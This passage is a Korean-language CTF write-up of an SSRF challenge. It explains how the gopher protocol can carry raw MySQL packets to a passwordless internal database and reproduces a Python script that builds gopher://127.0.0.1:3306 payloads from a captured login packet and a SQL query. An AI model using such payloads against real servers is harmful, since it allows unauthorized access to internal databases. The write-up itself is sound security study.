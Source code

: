 ```php
```

살펴보면, 데이터베이스에 접속하기 위한 사용자의 아이디는 `ssrf_user`이며, 패스워드는 없다.  

또한 데이터베이스의 이름은 `ssrf`이고, `initdb` 함수에서 `flag`라는 데이터베이스가 없다면 새로 생성하라고 했기 때문에 `ssrf` 데이터베이스에는 `flag`라는 테이블이 있다는 것을 알 수 있다.  

이름도 `flag`이니, 아마 여기에 `flag`가 있을 것 같다.  

`select * from ssrf.flag;`를 쿼리를 실행시킬수만 있다면 문제를 짠! 하고 풀 수 있을 것이다.  

여기까진 알아낼만 했는데, 문제는 이제부터이다.  

도대체 저 정보만 가지고 어떻게 쿼리를 실행시킬 수 있는 것인가.  

`Write-up`을 보니 다들 `gopher`라는 프로토콜을 사용했다.  

> gopher 프로토콜  
>> 인터넷을 위해 고안된 문서 검색 프로토콜  

`gopher` 프로토콜이 만들어진 취지는 위와 같으나, 요즘에는 잘 사용하지 않는 프로토콜인 것 같다.  

`http` 프로토콜에서는 헤더나 기타 URL 인코딩 데이터를 제어할 수 없지만, `gopher`를 사용하면, 전송 된 모든 바이트를 제어할 수 있기 때문에 이 `gopher` 프로토콜을 이용하면 `MySQL`에 요청을 보낼 수 있다고 한다.  

요청을 보내는 방법은 생각보다 간단하다.  

* 1. Wireshark를 통해 MySQL에 로그인 하는 패킷 캡쳐  
* 2. 해당 패킷을 바탕으로 gopher 프로토콜 요청 페이로드 작성  

페이로드 작성은 친절하게도 이미 누군가가 파이썬 코드를 작성 해 올려두었다.  

[https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py](https://github.com/tarunkant/Automation/blob/master/SSRF-through-Gopher.py)

```python
dump = raw_input("Give connection packet of mysql: ")
query = raw_input("Give query to execute: ")

auth = dump.replace("\n","")

def encode(s):
    a = [s[i:i + 2] for i in range(0, len(s), 2)]
    return "gopher://127.0.0.1:3306/_%" + "%".join(a)


def get_payload(query):
    if(query.strip()!=''):
    	query = query.encode("hex")
    	query_length = '{:x}'.format((int((len(query) / 2) + 1)))
    	pay1 = query_length.rjust(2,'0') + "00000003" + query
    	final = encode(auth + pay1 + "0100000001")
    	return final
    else:
	return encode(auth)

print "\nYour gopher link is ready to do SSRF : \n"
print get_payload(query)
```
